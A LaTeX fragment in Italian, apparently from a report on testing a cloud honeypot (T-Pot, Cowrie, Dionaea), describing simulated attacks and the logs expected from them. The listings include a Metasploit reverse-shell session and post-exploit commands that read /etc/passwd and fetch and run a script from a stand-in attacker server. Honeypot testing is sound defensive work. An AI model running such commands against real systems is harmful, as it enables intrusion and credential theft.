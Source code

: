 \documentclass[a4paper,12pt]{report}
\begin{document}
\subsubsection{Fase 3: Tentativi di Exploit (Simulati)}
\label{subsubsec:fase3_test}
Se l'honeypot emula servizi vulnerabili (es. tramite Kippo, Dionaea dentro T-Pot), si possono usare strumenti come Metasploit per interagire.
\begin{lstlisting}[caption={Esempio di interazione con Metasploit (ipotetico)}, label=lst:metasploit_test]
# msfconsole
# > use exploit/multi/handler # O exploit specifici se l'honeypot li simula
# > set PAYLOAD linux/x86/meterpreter/reverse_tcp
# > set LHOST <attacker-ip>
# > set RHOST <honeypot-public-ip>
# > exploit
\end{lstlisting}
L'honeypot dovrebbe loggare questi tentativi.

\subsubsection{Fase 4: Interazione Post-Exploit (Simulata)}
\label{subsubsec:fase4_test}
Se si ottiene accesso a una shell simulata (es. Cowrie \cite{cowrie_devs_2024}), l'honeypot registrerà i comandi eseguiti.
\begin{lstlisting}[caption={Comandi comuni eseguiti in shell compromesse simulate}, label=lst:post_exploit_cmds]
uname -a
ls -la /
cat /etc/passwd
wget http://<attacker-server>/malware.sh -O /tmp/m.sh
chmod +x /tmp/m.sh
/tmp/m.sh
exit
\end{lstlisting}

\subsection{Risultati Ottenuti (Ipotetici)}
\label{subsec:risultati_test}

L'esperimento simulato dovrebbe generare i seguenti output nel sistema di monitoraggio:

\subsubsection{Log dell'Honeypot (es. T-Pot / CloudWatch Logs)}
\label{subsubsec:log_honeypot_test}
\begin{itemize}
    \item Log dettagliati delle connessioni in ingresso (IP sorgente, porta destinazione, timestamp).
    \item Credenziali usate nei tentativi di brute force (log di Cowrie, HonSSH).
    \item Payload di exploit tentati (log di Dionaea, Suricata).
    \item Comandi eseguiti nelle shell simulate (log di Cowrie).
    \item File scaricati dall'attaccante simulato (se supportato).
\end{itemize}
\end{document}
